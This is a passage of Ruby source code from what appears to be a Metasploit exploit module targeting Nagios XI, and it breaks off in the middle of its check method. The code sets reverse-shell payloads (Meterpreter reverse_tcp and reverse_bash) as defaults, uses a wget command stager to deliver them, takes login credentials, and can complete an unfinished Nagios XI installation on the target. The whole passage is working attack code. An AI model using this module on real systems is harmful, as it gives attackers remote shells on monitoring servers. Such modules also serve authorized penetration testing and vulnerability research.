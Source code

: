                    # only the wget and perhaps the curl CmdStagers work against a typical Nagios XI host (CentOS 7 minimal) if Nagios XI was installed according to the documentation
                    'CmdStagerFlavor' => :wget,
                    'DefaultOptions' => { 'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp' }
                  }
                ],
                [
                  'CMD', {
                    'Arch' => [ARCH_CMD],
                    'Platform' => 'unix',
                    'DefaultOptions' => { 'PAYLOAD' => 'cmd/unix/reverse_bash' }
                  }
                ]
              ],
            'Privileged' => false,
            'DisclosureDate' => '2020-12-19',
            'DefaultTarget' => 0,
            'Notes' =>
              {
                'Stability' => [ CRASH_SAFE ],
                'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS, CONFIG_CHANGES ],
                'Reliability' => [FIRST_ATTEMPT_FAIL] # payload may not connect back the first time
              }
          )
        )

        register_options [
          OptString.new('USERNAME', [true, 'Username to authenticate with', 'nagiosadmin']),
          OptString.new('PASSWORD', [true, 'Password to authenticate with', nil])
        ]
      end

      def username
        datastore['USERNAME']
      end

      def password
        datastore['PASSWORD']
      end

      def finish_install
        datastore['FINISH_INSTALL']
      end

      def check
        # Use nagios_xi_login to try and authenticate. If authentication succeeds, nagios_xi_login returns
        # an array containing the http response body of a get request to index.php and the session cookies
        login_result, res_array = nagios_xi_login(username, password, finish_install)
        case login_result
        when 1..3 # An error occurred
          return CheckCode::Unknown(res_array[0])
        when 4 # Nagios XI is not fully installed
          install_result = install_nagios_xi(password)
          if install_result
            return CheckCode::Unknown(install_result[1])
          end
